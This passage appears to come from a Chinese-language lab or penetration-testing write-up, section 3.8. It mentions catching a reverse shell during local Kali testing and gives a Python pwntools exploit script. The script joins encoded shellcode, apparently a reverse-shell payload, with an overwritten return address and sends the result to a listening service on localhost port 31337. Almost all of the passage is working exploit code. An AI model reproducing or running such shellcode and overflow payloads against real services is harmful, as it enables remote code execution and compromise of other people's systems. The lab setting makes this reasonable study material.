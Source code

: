 > kali 本地测试中能监听到反弹

#### 3.8 编写 python 脚本

要安装 python 中的 pwn 包。[参考](https://blog.csdn.net/qq_52553510/article/details/122475088)

```plain
//shell3322
from pwn import *

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31"
buf += b"\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26"
buf += b"\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1"
buf += b"\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d"
buf += b"\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69"
buf += b"\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45"
buf += b"\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66"
buf += b"\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90"

ret = p64(0x400cfb)
#ret = "\xfb\x0c\x40\x00"
print (ret)
payload = buf + ret

r = remote("127.0.0.1", 31337)
r.recv()
r.send(payload)
print("ok")
```
